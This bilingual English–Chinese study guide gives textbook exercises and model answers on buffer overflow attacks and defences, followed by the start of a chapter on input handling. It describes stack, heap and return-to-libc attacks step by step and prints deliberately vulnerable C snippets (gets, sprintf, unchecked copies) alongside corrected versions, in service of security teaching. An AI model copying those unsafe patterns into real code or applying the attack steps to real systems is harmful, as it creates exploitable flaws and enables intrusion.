(c) A return-to-libc attack injects no new code; it redirects the return address to a function that already exists, and is already executable, inside a loaded library. A non-executable stack only blocks execution of code written into non-executable memory (such as injected shellcode on the stack), so it has nothing to block here.（c）返回 libc 攻击不注入任何新代码；它将返回地址重定向到已加载库中已经存在且本身即可执行的函数。不可执行栈只阻止在不可执行内存中写入的代码的执行（例如栈上注入的 shellcode），因此在这种情形中它没有可阻止的对象。
(d) \(512/2^{20}=512/1{,}048{,}576\approx4.9\times10^{-4}\). This is the probability of success on a single attempt; it says nothing about many repeated attempts against a service that simply restarts identically after each failed, crashing attempt, so a determined attacker making enough attempts can still eventually succeed unless some other defence (rate limiting, a canary that also changes the next run's layout, etc.) is also in place.（d）\(512/2^{20}=512/1{,}048{,}576\approx4.9\times10^{-4}\)。这是单次尝试的成功概率；它并未说明针对一个在每次失败且崩溃的尝试之后都以完全相同方式重启的服务进行大量重复尝试的情形。因此，若攻击者坚持进行足够多的尝试，仍然可能最终成功，除非同时部署了其他防御措施（如速率限制，或使下次运行的布局也随之改变的金丝雀等）。
思路：先分编译期/运行期，再分别套用 1/2^n 和 sled/placements 两个公式；最后强调单次概率低不等于长期安全。
Q4. (Off-by-one and return-to-libc, 12 marks) (a) Explain how an off-by-one coding error differs from the "no bound check at all" errors used in the rest of this chapter, and why it typically changes only one byte of a target value. (4 marks) (b) Describe, step by step, how a replacement stack frame turns that one-byte change into a transfer of control to shellcode. (5 marks) (c) True or false, with justification: "Return-to-libc attacks became necessary mainly because of ASLR." (3 marks)Q4.（差一错误与返回 libc 攻击，12 分）（a）解释差一编码错误与本章其余部分所用的“完全没有边界检查”的错误有何不同，以及它为何通常只改变目标值的一个字节。（4 分）（b）逐步描述替换栈帧如何将这一字节的改动转化为控制权向 shellcode 的转移。（5 分）（c）判断正误并给出理由：“返回 libc 攻击的出现主要是由于 ASLR。”（3 分）
Answer
(a) An off-by-one error occurs in code that does check a bound, but with a mistake in the comparison (such as \(\le\) instead of \(<\)), so exactly one byte more than intended is copied, rather than an unlimited amount. If the overflowing buffer sits immediately below the target value, that one extra byte lands only on the target's lowest-address byte — its least significant byte on a little-endian system — leaving the other three bytes unchanged.（a）差一错误出现在确实进行了边界检查、但比较有误的代码中（例如本应为 \(<\) 时却写成了 \(\le\)），因此恰好多复制了一个字节，而不是不受限制地复制。若溢出的缓冲区紧挨在目标值的下方，则那多出的一个字节只会落在目标值的最低地址字节上——在小端序系统上即其最低有效字节——其余三个字节保持不变。
(b) The attacker first lays out, inside the overflowed buffer, a small fake stack frame whose own return address points to shellcode placed earlier in the same buffer. The one-byte change then redirects the saved frame pointer to the address of this fake frame instead of the real caller's frame. The current function's own return address is untouched, so it returns normally into its caller; but the caller is now using the corrupted (redirected) frame pointer. When that caller itself later returns, it uses the fake frame's return address, transferring control into the shellcode.（b）攻击者首先在溢出的缓冲区内布置一个小型伪造栈帧，其返回地址指向同一缓冲区中较早位置放置的 shellcode。随后，这一字节的改动将已保存的帧指针重定向到该伪造栈帧的地址，而不是真正调用者的栈帧。当前函数自身的返回地址未被改动，因此它能正常返回到其调用者；但调用者此时使用的是被破坏（已被重定向）的帧指针。当该调用者之后自身返回时，便会使用伪造栈帧的返回地址，从而将控制转移到 shellcode 中。
(c) False. Return-to-libc attacks became necessary mainly because of non-executable stack/heap protections (NX/DEP), which block jumping into injected shellcode; reusing existing, already-executable library code sidesteps that specific defence. ASLR came later and is instead one of the main counters to return-to-libc, by making the needed library function's address unpredictable.（c）错误。返回 libc 攻击之所以成为必需，主要是由于不可执行栈/堆保护（NX/DEP）阻止了跳转到注入的 shellcode；复用已存在且本身可执行的库代码，恰好绕开了这一具体防御。ASLR 出现得较晚，它反而是针对返回 libc 攻击的主要对策之一，因为它使所需库函数的地址变得不可预测。
易错：NX 让"注入新代码"变难 → 催生 return-to-libc；ASLR 是用来对付 return-to-libc 的，顺序不要搞反。
Q5. (Heap and global data, 12 marks) (a) Using a struct containing a 64-byte buffer followed by a function pointer, explain what an overflow of the buffer corrupts and how control is eventually transferred, whether the struct is heap-allocated or a global variable. (5 marks) (b) Explain one reason a global-data version of this overflow is generally easier to target precisely than a heap-allocated version. (3 marks) (c) Give two independent design changes that prevent this overflow, and explain why having both is better than either alone. (4 marks)Q5.（堆与全局数据，12 分）（a）以一个包含 64 字节缓冲区、其后紧跟一个函数指针的结构体为例，解释该缓冲区的溢出会破坏什么，以及控制流最终如何被转移，无论该结构体是分配在堆上还是作为全局变量。（5 分）（b）解释该溢出的全局数据版本通常比堆分配版本更易被精确瞄准的一个原因。（3 分）（c）给出两项相互独立的设计改动，它们都能防止该溢出，并解释为何同时采用两者比单独采用任一项更好。（4 分）
Answer
(a) In both cases, an overflow of the 64-byte buffer that is not bound-checked spills into the adjacent function pointer, replacing it with an address of the attacker's choosing. Neither the heap nor the global/static data area has a return address the way the stack does, so control is not hijacked immediately; instead, it transfers only later, when the program makes an indirect call through that corrupted function pointer.（a）两种情况下，未经边界检查的 64 字节缓冲区溢出都会溢出到相邻的函数指针中，并将其替换为攻击者选定的地址。堆和全局/静态数据区都不像栈那样具有返回地址，因此控制流不会立即被劫持；相反，只有当程序通过该被破坏的函数指针进行间接调用时，控制才会随之转移。
(b) A global/static variable's address is fixed by the program's own executable file and load layout and does not normally move between runs, so once the binary has been examined it can be targeted exactly; a heap allocation's address can depend on the sequence of earlier allocations (and can be randomised), making it comparatively harder to predict precisely.（b）全局/静态变量的地址由程序自身的可执行文件和加载布局固定，通常不会在不同运行之间变化，因此一旦检查过该二进制文件，就能被精确瞄准；而堆分配的地址可能取决于之前分配的顺序（并且可以被随机化），因此相对更难精确预测。
(c) (1) Replace the unchecked copy into the buffer with a bounded one (for example fgets with the buffer's exact size), which prevents the overflow from occurring at all regardless of memory layout. (2) Declare the function pointer before the buffer in the structure, so that an overflow of the buffer runs off the end of the allocation instead of reaching the pointer. Having both is better because (1) can fail to be applied consistently everywhere a structure is used, or a similar future structure might repeat the same mistake, while (2) still limits the damage in that case; relying on (2) alone, however, is not sufficient by itself, since an overflow large enough could still reach further structures or corrupt other data even without hitting this particular pointer.（c）（1）将对缓冲区的未检查复制替换为有界复制（例如以缓冲区的确切大小为限的 fgets），这可以在任何内存布局下都防止溢出的发生。（2）在结构体中将函数指针声明在缓冲区之前，使缓冲区溢出时越过分配块的末尾，而不是到达该指针。同时采用两者更好，因为（1）可能无法在结构体的每一处使用中始终如一地实施，或者未来类似的结构体可能重蹈覆辙，而（2）在这种情况下仍能限制损害；然而，仅依赖（2）本身并不充分，因为足够大的溢出仍可能波及更远的结构体，或即使未击中这一特定指针，也会破坏其他数据。
思路：(a) 先说覆盖的是函数指针而不是返回地址，再说明要靠后续的间接调用才会劫持控制；(c) 两个修复一个治根、一个治标，缺一不可。
Textbook exercises课后习题
Textbook exercises with answers: 19 questions教材习题及答案，共 19 题，点击展开
E1. (Review Question 10.1, Stallings & Brown) Define buffer overflow.E1.（复习题 10.1，Stallings & Brown）定义缓冲区溢出。
Answer
A buffer overflow (also called a buffer overrun) is a programming error in which a process stores data beyond the limits of a fixed-size buffer and so overwrites adjacent memory locations. These locations can hold other variables or parameters, or control-flow data such as saved frame pointers and return addresses. The cause is that the program copies data into the buffer without checking that it fits.缓冲区溢出（也叫缓冲区越界）是一种编程错误：进程向固定大小的缓冲区存入超出其界限的数据，从而覆盖了相邻的内存位置。这些位置可能存放其他变量或参数，也可能存放控制流数据，如保存的帧指针和返回地址。原因在于，程序在复制数据时没有检查数据是否放得下。
思路：向定长缓冲区写入超过其容量的数据，覆盖相邻内存。
E2. (Review Question 10.2, Stallings & Brown) List the three distinct types of locations in a process address space that buffer overflow attacks typically target.E2.（复习题 10.2，Stallings & Brown）列出缓冲区溢出攻击通常针对的、进程地址空间中的三类不同位置。
Answer
- The stack. Local variables of functions, together with the saved frame pointer and return address, live in stack frames. This is the target of the classic stack smashing attack.栈。 函数的局部变量，连同保存的帧指针和返回地址，都位于栈帧中。这是经典栈粉碎攻击的目标。
- The heap. Memory allocated dynamically with
malloc()lies in the heap, which can hold function pointers and memory-management data.堆。 用malloc()动态分配的内存位于堆中，堆中可以存放函数指针和内存管理数据。 - The global (static) data area. Global and static variables are stored in the data section of the process.全局（静态）数据区。 全局变量和静态变量存放在进程的数据段中。
思路：栈、堆、全局数据区。
E3. (Review Question 10.3, Stallings & Brown) What are the possible consequences of a buffer overflow occurring?E3.（复习题 10.3，Stallings & Brown）缓冲区溢出可能导致哪些后果？
Answer
The consequences are:后果包括：
- Corruption of data used by the program, for example an adjacent variable.程序所用数据被破坏，例如相邻的变量。
- An unexpected transfer of control in the program, for example through an overwritten return address or function pointer.程序中出现意外的控制转移，例如通过被覆盖的返回地址或函数指针。
- Memory access violations.内存访问违规。
- Very likely, eventual program termination, which is a denial of service when the program provides a service.很可能最终导致程序终止；如果该程序提供服务，这就是拒绝服务。
If the overflow is deliberate, the control transfer can go to code chosen by the attacker, who then executes arbitrary code with the privileges of the attacked process.如果溢出是人为故意造成的，控制转移可以跳到攻击者选定的代码，攻击者随后以被攻击进程的权限执行任意代码。
思路：数据被破坏、控制流被劫持、访问违规、程序崩溃；恶意时可执行任意代码。
E4. (Review Question 10.4, Stallings & Brown) What are the two key elements that must be identified in order to implement a buffer overflow?E4.（复习题 10.4，Stallings & Brown）实施缓冲区溢出攻击，必须确定哪两个关键要素？
Answer
- A buffer overflow vulnerability in a program that can be triggered by externally sourced data under the attacker's control, for example input read from the keyboard, a network connection or a file.程序中存在一个缓冲区溢出漏洞，可以由攻击者控制的外部来源数据触发，例如从键盘、网络连接或文件读取的输入。
- How that buffer is stored in the process memory, which tells the attacker which adjacent locations can be corrupted (for example how many bytes separate the buffer from the return address) and so how execution can be altered.该缓冲区在进程内存中如何存放，这决定了攻击者能破坏哪些相邻位置（例如缓冲区与返回地址之间相隔多少字节），从而决定如何改变程序的执行。
思路：一是可由外部数据触发的漏洞，二是缓冲区在内存中的布局，以便精确覆盖目标。
E5. (Review Question 10.5, Stallings & Brown) What types of programming languages are vulnerable to buffer overflows?E5.（复习题 10.5，Stallings & Brown）哪些类型的编程语言容易受到缓冲区溢出的影响？
Answer
Languages that give the programmer direct access to memory and do not check the limits of buffers: machine and assembly language, and low-level languages such as C and C++ (whose standard library has unsafe routines such as gets()). In them the programmer must check every buffer access. Modern high-level languages such as Java, Ada and Python have strong typing and automatic range checks, so they do not allow more data to be stored in a buffer than it can hold.那些允许程序员直接访问内存、又不检查缓冲区边界的语言：机器语言和汇编语言，以及 C、C++ 这类低级语言（它们的标准库中有 gets() 等不安全的例程）。在这些语言中，程序员必须检查每一次缓冲区访问。Java、Ada、Python 等现代高级语言有强类型和自动范围检查，因此不允许向缓冲区存入超过其容量的数据。
思路：无边界检查、能直接操作内存的语言（汇编、C、C++）；Java、Python 等有检查的语言不会。
E6. (Review Question 10.6, Stallings & Brown) Describe how a stack buffer overflow attack is implemented.E6.（复习题 10.6，Stallings & Brown）描述栈缓冲区溢出攻击是如何实现的。
Answer
- The attacker finds a program with a stack buffer that is filled from external input without a length check, often a trusted program with elevated privileges.攻击者找到一个程序，其栈缓冲区由外部输入填充且没有长度检查，这样的程序往往是拥有较高权限的可信程序。
- The attacker determines the buffer address and the distance from the buffer to the saved frame pointer and return address, usually with a debugger on the same system type.攻击者确定缓冲区的地址，以及缓冲区到保存的帧指针和返回地址的距离，通常是借助同类系统上的调试器来完成。
- The attacker builds an input string that contains the shellcode, padding up to the saved frame pointer, a valid replacement for it, and, in place of the return address, the address of the shellcode (little-endian on x86).攻击者构造一个输入字符串，其中包含 shellcode、填充到保存的帧指针处的数据、对它的一个有效替代值，以及在返回地址处放置的 shellcode 地址（在 x86 上为小端序）。
- The program copies the string, overwriting the return address. When the function returns, control jumps to the shellcode, which runs with the program's privileges.程序复制该字符串，从而覆盖返回地址。函数返回时，控制跳转到 shellcode，它以该程序的权限运行。
思路：找到无检查的栈缓冲区，算出偏移，用 shellcode 地址覆盖返回地址。
E7. (Review Question 10.7, Stallings & Brown) Define shellcode.E7.（复习题 10.7，Stallings & Brown）定义 shellcode。
Answer
Shellcode is the machine code that an attacker places in the overflowed buffer and that runs when control is transferred to it. It gets its name because it traditionally starts a command shell, for example by calling execve("/bin/sh") through a system call, which gives the attacker the privileges of the attacked program. It is usually written in assembly language for the target processor and operating system.Shellcode 是攻击者放入被溢出缓冲区中的机器码，控制权转移到它时即被执行。它之所以得名，是因为传统上它用来启动一个命令 shell，例如通过系统调用 execve("/bin/sh") 来实现，从而使攻击者获得被攻击程序的权限。它通常针对目标处理器和操作系统，用汇编语言编写。
思路：攻击者注入缓冲区的机器码，传统上用来启动 shell。
E8. (Review Question 10.8, Stallings & Brown) What restrictions are often found in shellcode, and how can they be avoided?E8.（复习题 10.8，Stallings & Brown）shellcode 中常见哪些限制？如何避免？
Answer
- It must be position independent. The attacker cannot know the exact address of the buffer, so the code may not contain absolute addresses of itself; it may use only offsets relative to the current instruction. A common trick is a JMP/CALL pair that pushes the address of the data (for example the string
/bin/sh) onto the stack.它必须与位置无关。 攻击者无法知道缓冲区的确切地址，因此代码中不能包含指向自身的绝对地址，只能使用相对于当前指令的偏移量。常用的技巧是一对 JMP/CALL 指令，它把数据（例如字符串/bin/sh）的地址压入栈中。 - It must contain no NULL bytes. The code is usually copied by a string routine that stops at a NULL, so a NULL may appear only at the end. Zero values are created at run time instead, for example by XOR of a register with itself, and are stored by the code as it runs.它不能包含 NULL 字节。 代码通常由遇到 NULL 即停止的字符串例程复制，因此 NULL 只能出现在末尾。零值改为在运行时生成，例如让一个寄存器与自身异或，并由代码在运行时存放到相应位置。
思路：必须位置无关（相对寻址、JMP/CALL 技巧），不能含 NULL（用 XOR 在运行时生成 0）。
E9. (Review Question 10.9, Stallings & Brown) Describe what a NOP sled is and how it is used in a buffer overflow attack.E9.（复习题 10.9，Stallings & Brown）描述什么是 NOP 滑板，以及它在缓冲区溢出攻击中如何使用。
Answer
A NOP sled is a run of no-operation instructions, placed in the buffer in front of the shellcode. The attacker cannot predict the exact address of the shellcode, but the sled makes it unnecessary: the overwritten return address only has to point anywhere inside the sled. Execution then slides over the NOPs, which do nothing, into the shellcode. The longer the sled, the larger the range of acceptable guesses, so the attack succeeds more easily.NOP 滑板是一串空操作指令，放在 shellcode 前面的缓冲区中。攻击者无法精确预测 shellcode 的地址，但有了滑板就不必如此：被覆盖的返回地址只需指向滑板内的任意位置即可。执行随后会滑过这些什么都不做的 NOP，到达 shellcode。滑板越长，可接受的猜测范围越大，攻击也就越容易成功。
思路：shellcode 前面的一串空操作，使返回地址只需落在雪橇区内即可。
E10. (Review Question 10.10, Stallings & Brown) List some of the different operations an attacker may design shellcode to perform.E10.（复习题 10.10，Stallings & Brown）列出攻击者可能让 shellcode 执行的若干不同操作。
Answer
Shellcode can:shellcode 可以：
- start a command shell (UNIX or DOS) for the attacker;为攻击者启动一个命令 shell（UNIX 或 DOS）；
- set up a listening service that launches a remote shell when the attacker connects;设置一个监听服务，攻击者连接时启动远程 shell；
- create a reverse shell that connects back to the attacker's system;创建一个反向 shell，回连攻击者的系统；
- use local exploits to establish a shell or run a process (privilege escalation);利用本地漏洞建立 shell 或运行进程（提权）；
- flush firewall rules (such as IPTables) that block other attacks;清空阻挡其他攻击的防火墙规则（例如 IPTables）；
- break out of a chroot (restricted execution) environment and gain full access to the system.跳出 chroot（受限执行）环境，获得对系统的完全访问权限。
思路：开 shell、监听/反向 shell、提权、清防火墙规则、逃出 chroot。
E11. (Review Question 10.11, Stallings & Brown) What are the two broad categories of defenses against buffer overflows?E11.（复习题 10.11，Stallings & Brown）缓冲区溢出防御大体上分为哪两类？
Answer
- Compile-time defenses harden new programs so that they resist attacks: a safe language, safe coding practices, safe libraries and stack-protection code inserted by the compiler.编译期防御用于加固新程序，使其能够抵御攻击：安全的语言、安全的编码实践、安全的库，以及编译器插入的栈保护代码。
- Run-time defenses detect and abort attacks against existing, vulnerable programs, by changing how the operating system manages process memory.运行期防御通过改变操作系统管理进程内存的方式，检测并中止针对现有漏洞程序的攻击。
Run-time defenses matter because a very large base of vulnerable software exists and cannot be recompiled.运行期防御之所以重要，是因为存在大量有漏洞的软件，而且它们无法重新编译。
思路：编译期（加固新程序）与运行期（保护现有程序）。
E12. (Review Question 10.12, Stallings & Brown) List and briefly describe some of the defenses against buffer overflows that can be used when compiling new programs.E12.（复习题 10.12，Stallings & Brown）列出并简要描述一些在编译新程序时可用的缓冲区溢出防御措施。
Answer
- Choice of a safe programming language. Languages with strong typing add range checks automatically, at some cost in resources.选择安全的编程语言。 具有强类型的语言会自动添加范围检查，但要付出一定的资源开销。
- Safe coding techniques. The programmer always checks that there is enough space before writing to a buffer, and audits existing code.安全编码技术。 程序员在写入缓冲区之前，总是检查空间是否足够，并审查现有代码。
- Safe libraries and language extensions. Unsafe routines are replaced by safer ones (for example
strlcpy(), or the Libsafe library, which checks that copies stay inside the frame), or the compiler adds bounds checks to pointers.安全的库与语言扩展。 不安全的例程被更安全的版本替换（例如strlcpy()，或检查复制操作是否停留在栈帧内的 Libsafe 库），或者由编译器为指针添加边界检查。 - Stack protection. The compiler inserts code at function entry and exit. Stackguard places a random canary value below the saved frame pointer and checks it before returning; Stackshield and RAD save a copy of the return address in a safe place and compare it on exit. Any change aborts the program.栈保护。 编译器在函数入口和出口处插入代码。Stackguard 在保存的帧指针下方放置一个随机的金丝雀值，并在返回前检查它；Stackshield 和 RAD 则把返回地址的副本保存在安全的位置，并在出口处进行比较。一旦发生任何改变，程序就会中止。
All of these require recompiling the programs.以上方法都需要重新编译程序。
思路：安全语言、安全编码、安全库/扩展、栈保护（canary、返回地址副本）。
E13. (Review Question 10.13, Stallings & Brown) List and briefly describe some of the defenses against buffer overflows that can be implemented when running existing, vulnerable programs.E13.（复习题 10.13，Stallings & Brown）列出并简要描述一些在运行现有的有漏洞程序时可以实施的缓冲区溢出防御措施。
Answer
- Executable address space protection. Pages of the stack (and heap) are marked non-executable in the MMU (the no-execute bit), so injected code cannot run. Programs that need executable stack code, such as just-in-time compilers, need special provisions.可执行地址空间保护。 栈（和堆）的页面在 MMU 中被标记为不可执行（即不可执行位），因此注入的代码无法运行。需要可执行栈代码的程序，例如即时编译器，需要特殊的处理。
- Address space randomisation. The locations of the stack, heap and standard libraries are changed randomly for each run, so the attacker cannot predict the addresses of the buffer or of library functions.地址空间随机化。 栈、堆和标准库的位置在每次运行时都被随机改变，因此攻击者无法预测缓冲区或库函数的地址。
- Guard pages. Pages marked as illegal to access are placed between memory regions (and possibly between stack frames or heap allocations), so an overflow that crosses them causes a fault and aborts the program.保护页。 被标记为禁止访问的页面放在内存区域之间（也可能放在栈帧或堆分配之间），因此越过它们的溢出会引发故障并使程序中止。
思路：不可执行栈/堆、地址空间随机化、保护页，都由操作系统实现，不需重编译。
E14. (Review Question 10.14, Stallings & Brown) Describe how a return-to-system-call attack is implemented and why it is used.E14.（复习题 10.14，Stallings & Brown）描述 return-to-system-call 攻击是如何实现的，以及为什么要使用它。
Answer
Why. A non-executable stack stops the attacker from running injected shellcode. The attacker therefore jumps to code that already exists in memory, usually a standard library function such as system().原因。 不可执行的栈会阻止攻击者运行注入的 shellcode。因此，攻击者转而跳转到内存中已经存在的代码，通常是 system() 之类的标准库函数。
How. The overflow fills the buffer, replaces the saved frame pointer with a suitable value, and replaces the return address with the address of the library function. Above it the attacker writes a placeholder that the function treats as its own return address, and then the function's parameter, for example a pointer to the string "shell command line". When the attacked function returns, control goes to the library function, which runs the command. Two calls can be chained by making the placeholder the address of a second function, for example strcpy() to copy shellcode to an executable region.做法。 溢出先填满缓冲区，用合适的值替换保存的帧指针，再把返回地址替换为库函数的地址。在它上面，攻击者写入一个占位值，函数会把它当作自己的返回地址；然后是函数的参数，例如指向字符串 “shell command line” 的指针。被攻击的函数返回时，控制转到该库函数，由它执行命令。若把占位值换成第二个函数的地址，还可以串联两次调用，例如先调用 strcpy() 把 shellcode 复制到可执行区域。
Stack protection, and randomisation of the stack and the libraries, defend against it.栈保护，以及栈和库的随机化，都可以防御这种攻击。
思路：栈不可执行时，把返回地址改成 system() 等库函数地址并在栈上布置参数。
E15. (Review Question 10.15, Stallings & Brown) Describe how a heap buffer overflow attack is implemented.E15.（复习题 10.15，Stallings & Brown）描述堆缓冲区溢出攻击是如何实现的。
Answer
The heap holds dynamically allocated memory and normally has no return addresses, so the attacker overwrites other useful data stored next to the buffer. For example, a structure allocated on the heap may contain a buffer followed by a function pointer. The attacker finds the address of the structure and builds an input that fills the buffer (shellcode behind a NOP sled) and then writes the address of the shellcode over the function pointer. When the program later calls the function through the pointer, it runs the shellcode. Attacks also corrupt the management data that the allocator keeps next to each block.堆中存放动态分配的内存，通常没有返回地址，因此攻击者会覆盖缓冲区旁边存放的其他有用数据。例如，堆上分配的一个结构体可能包含一个缓冲区，其后紧跟一个函数指针。攻击者找到该结构体的地址，构造一段输入来填满缓冲区（shellcode 放在 NOP 滑板之后），然后把 shellcode 的地址写到函数指针上。程序之后通过该指针调用函数时，就会运行 shellcode。攻击还会破坏分配器在每个内存块旁边保存的管理数据。
Defenses: a non-executable heap, randomised heap allocation, and guard pages between heap allocations.防御措施：不可执行的堆、随机化的堆分配，以及堆分配之间的保护页。
思路：缓冲区后面的堆数据（如函数指针或分配器管理结构）被覆盖，指针指向 shellcode。
E16. (Review Question 10.16, Stallings & Brown) Describe how a global data area overflow attack is implemented.E16.（复习题 10.16，Stallings & Brown）描述全局数据区溢出攻击是如何实现的。
Answer
The buffer is a global (or static) variable stored in the data section. The attacker overflows it into adjacent global data, typically a function pointer in the same structure or a nearby variable, and sets it to the address of shellcode that was written into the buffer. Global variables do not usually change location, because the program code addresses them directly, so the target address is found easily (with a debugger). The attack is then built as in the heap case: NOP sled, shellcode, and the target address at the right offset.缓冲区是存放在数据段中的全局（或静态）变量。攻击者将其溢出到相邻的全局数据中，通常是同一结构体中的函数指针，或某个邻近变量，并把它设为写入缓冲区的 shellcode 的地址。由于程序代码直接按地址访问全局变量，全局变量通常不会改变位置，因此目标地址很容易找到（借助调试器）。攻击的构造方式与堆的情形相同：NOP 滑板、shellcode，以及位于正确偏移处的目标地址。
Defenses: a non-executable global data area, putting function pointers below other data types, and guard pages between the global data and other regions.防御措施：不可执行的全局数据区，把函数指针放在其他类型数据的下方，以及全局数据与其他区域之间的保护页。
思路：与堆溢出类似，覆盖全局数据区中相邻的函数指针，全局变量地址固定。
E17. (Problem 10.2, Stallings & Brown) The following program is vulnerable to a buffer overflow. The function next_tag(str1) copies an expected tag (assume the string START) into str1, and gets() reads the next input line. Rewrite the program so that it is no longer vulnerable.E17.（习题 10.2，Stallings & Brown）下面的程序存在缓冲区溢出漏洞。函数 next_tag(str1) 把一个预期的标记（假设为字符串 START）复制到 str1 中，gets() 读取下一行输入。请改写该程序，使其不再存在漏洞。
int main(int argc, char *argv[]) {
int valid = FALSE;
char str1[8];
char str2[8];
next_tag(str1);
gets(str2);
if (strncmp(str1, str2, 8) == 0)
valid = TRUE;
printf("buffer1: str1(%s), str2(%s), valid(%d)\n", str1, str2, valid);
}
Answer
The vulnerability is gets(): it copies the whole input line into str2 (8 bytes) without checking its length, so a longer line overwrites the adjacent variables str1 and valid. The fix is to read with a bounded routine, fgets(), which reads at most size - 1 characters and adds the NULL.漏洞在于 gets()：它把整行输入复制到 str2（8 字节）中，而不检查长度，因此较长的行会覆盖相邻的变量 str1 和 valid。修复方法是用有边界的例程 fgets() 读取输入，它最多读取 size - 1 个字符，并添加 NULL 字符。
int main(int argc, char *argv[]) {
int valid = FALSE;
char str1[8];
char str2[8];
next_tag(str1);
if (fgets(str2, sizeof(str2), stdin) != NULL) {
char *nl = strchr(str2, '\n');
if (nl != NULL) { /* complete line read: it fitted in the buffer */
*nl = '\0'; /* fgets keeps the newline, gets did not */
if (strncmp(str1, str2, 8) == 0)
valid = TRUE;
} /* no newline: line too long, input is invalid */
}
printf("buffer1: str1(%s), str2(%s), valid(%d)\n", str1, str2, valid);
}
Two details matter. fgets() stores the newline, which gets() removed, so it must be removed or the comparison would always fail. A line that does not fit leaves no newline in the buffer, so it is rejected instead of being truncated into a possible false match. Compiled and tested with the input START the result is valid, and with a long line the result is invalid and no memory is overwritten.有两个细节很关键。fgets() 会保存换行符，而 gets() 则把它去掉，因此必须把它去掉，否则比较总会失败。放不下的行不会在缓冲区中留下换行符，所以它会被拒绝，而不是被截断后可能误判为匹配。用输入 START 编译和测试时，结果有效；而输入一行过长的数据时，结果无效，并且没有覆盖任何内存。
思路：用 fgets 限定长度，并去掉换行；读不完整行就判为无效。
E18. (Problem 10.4, Stallings & Brown) The following program reads a line safely with fgets() but is still vulnerable to a stack buffer overflow. Rewrite it so that it is not.E18.（习题 10.4，Stallings & Brown）下面的程序用 fgets() 安全地读取了一行输入，但仍然存在栈缓冲区溢出漏洞。请改写它，使其不再有漏洞。
void getinp(char *inp, int siz)
{
puts("Input value: ");
fgets(inp, siz, stdin);
printf("buffer3 getinp read %s\n", inp);
}
void display(char *val)
{
char tmp[16];
sprintf(tmp, "read val: %s\n", val);
puts(tmp);
}
int main(int argc, char *argv[])
{
char buf[16];
getinp(buf, sizeof(buf));
display(buf);
printf("buffer3 done\n");
}
Answer
getinp() is safe: fgets() reads at most 15 characters into the 16-byte buf. The vulnerability is in display(). The destination tmp has 16 bytes, but sprintf() writes the 10 characters of "read val: ", the up to 15 characters of val and a newline and NULL, up to 27 bytes, and it does not check the destination size. The overflow reaches the saved frame pointer and possibly the return address. (A safe read does not make a later unsafe copy safe.)getinp() 是安全的：fgets() 最多把 15 个字符读入 16 字节的 buf 中。漏洞出在 display() 上。目标 tmp 只有 16 字节，但 sprintf() 会写入 "read val: " 的 10 个字符，以及至多 15 个字符的 val，再加上换行符和 NULL，最多共 27 字节，而且它不检查目标的大小。溢出会到达保存的帧指针，可能还会到达返回地址。（安全的读取并不能让之后不安全的复制变得安全。）
Fix: limit the formatted write to the size of the destination with snprintf(), which writes at most size bytes including the NULL.修复方法：用 snprintf() 限制格式化写入的大小为目标的大小，它最多写入 size 字节（包括 NULL）。
void display(char *val)
{
char tmp[16];
snprintf(tmp, sizeof(tmp), "read val: %s\n", val);
puts(tmp);
}
With this change a long input is truncated in tmp instead of overflowing it. If the whole value must be shown, tmp should be made large enough: at least strlen(val) + 12 bytes, allocated dynamically, or the value should be printed directly with printf. The remaining code needs no change.做了这一改动后，过长的输入会在 tmp 中被截断，而不再溢出。如果必须显示完整的值，则应把 tmp 设得足够大：至少 strlen(val) + 12 字节，并采用动态分配，或者直接用 printf 打印该值。其余代码无需改动。
思路：漏洞在 sprintf 而不是 fgets；用 snprintf 按目标缓冲区大小截断。
E19. (Problem 10.10, Stallings & Brown) Rewrite the following functions so that they are no longer vulnerable to a buffer overflow attack.E19.（习题 10.10，Stallings & Brown）改写下面这些函数，使它们不再易受缓冲区溢出攻击。
int copy_buf(char *to, int pos, char *from, int len)
{
int i;
for (i = 0; i < len; i++) {
to[pos] = from[i];
pos++;
}
return pos;
}
short read_chunk(FILE *fil, char *to)
{
short len;
fread(&len, 2, 1, fil); /* read length of binary data */
fread(to, 1, len, fil); /* read len bytes of binary data */
return len;
}
Answer
Both functions write into to without knowing its size, and the amount of data comes from the caller or from the input. The fix is the same: pass the size of the destination and check before writing.两个函数都在 to 中写入数据，却不知道它的大小，而写入的数据量来自调用者或输入。修复方法相同：传入目标的大小，并在写入之前进行检查。
int copy_buf(char *to, size_t to_size, int pos, const char *from, int len)
{
int i;
if (pos < 0 || len < 0 || (size_t)pos > to_size ||
(size_t)len > to_size - (size_t)pos)
return -1; /* would not fit: refuse */
for (i = 0; i < len; i++) {
to[pos] = from[i];
pos++;
}
return pos;
}
short read_chunk(FILE *fil, char *to, size_t to_size)
{
short len;
if (fread(&len, 2, 1, fil) != 1)
return -1;
if (len < 0 || (size_t)len > to_size)
return -1; /* length field larger than the buffer */
if (fread(to, 1, len, fil) != (size_t)len)
return -1;
return len;
}
Details. In copy_buf the test is written as len > to_size - pos, after checking pos <= to_size, so that pos + len cannot overflow and wrap around. In read_chunk the length is read from a file the attacker controls. It is a signed short, so a negative value must be rejected, because it would be converted to a huge unsigned count by fread. The return value of every fread is checked. The calling code has to pass the real size of its buffer.细节如下。在 copy_buf 中，测试写成 len > to_size - pos，并且是在检查 pos <= to_size 之后进行的，这样 pos + len 就不会溢出而回绕。在 read_chunk 中，长度是从攻击者可控的文件中读取的。它是一个有符号的 short，因此必须拒绝负值，因为负值会被 fread 转换为一个很大的无符号计数。每个 fread 的返回值都要检查。调用代码必须传入其缓冲区的真实大小。
思路：把目标缓冲区大小传进函数，写入前检查，并注意负数和加法溢出。
Chapter 15Software Security: Input Handling, Format Strings and XSS软件安全：输入处理、格式化字符串与 XSSReading: Stallings & Brown Ch. 11
Software security and defensive programming ★★软件安全与防御式编程
Goal. Say how software security differs from software quality, define defensive programming, and place a given flaw in the model of a program.目标。 说明软件安全与软件质量有何不同，定义防御式编程，并把一个给定的缺陷定位到程序模型的相应部分。
Security versus quality安全与质量的区别
In words: a quality bug is hit by chance, a security bug is hit on purpose by an attacker who picks the input.用文字表述：质量缺陷是碰巧被触发的，安全缺陷则是由选择输入的攻击者有意触发的。
| Software quality and reliability软件质量与可靠性 | Software security软件安全 | |
|---|---|---|
| Failures故障 | accidental, from random unanticipated use or faulty code; follow a probability distribution偶发性的，源于随机且未预料到的使用或有缺陷的代码；服从某种概率分布 | the attacker chooses the distribution and targets specific bugs攻击者选择分布，并针对特定缺陷 |
| Testing测试 | likely inputs and common errors常见输入与常见错误 | unusual inputs that ordinary tests rarely contain普通测试很少包含的异常输入 |
